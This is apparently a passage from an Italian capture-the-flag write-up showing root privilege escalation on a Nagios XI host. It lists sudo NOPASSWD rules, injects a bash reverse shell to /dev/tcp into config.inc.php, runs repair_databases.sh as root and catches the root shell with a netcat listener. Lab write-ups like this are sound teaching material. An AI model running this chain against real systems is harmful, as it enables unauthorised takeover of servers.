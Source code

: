 ```
Matching Defaults entries for www-data on shopper:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on shopper:
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/messages
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/httpd/error_log
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/mysqld.log
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/html/includes/components/autodiscovery/scripts/autodiscover_new.php
        *
    (root) NOPASSWD:
        /usr/local/nagiosxi/html/includes/components/profile/getprofile.sh
    (root) NOPASSWD: /etc/init.d/snmptt restart
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/repair_databases.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
```
Scriviamo la nostra reverse shell ed eseguiamo *reapir_databases.sh*
```
www-data@shopper:/usr/local/nagiosxi/html$ echo 'print("bash -i >& /dev/tcp/172.16.150.151/31337 0>&1;");' >> '/usr/local/nagiosxi/html/config.inc.php' && sudo /usr/local/nagiosxi/
scripts/repair_databases.sh
```
Siamo *root*, prendiamo la flag!
```
$ nc -lvnp 31337
listening on [any] 31337 ...
connect to [172.16.150.151] from (UNKNOWN) [172.16.150.137] 44394
root@shopper:/usr/local/nagiosxi/html# id
id
uid=0(root) gid=0(root) groups=0(root)
```
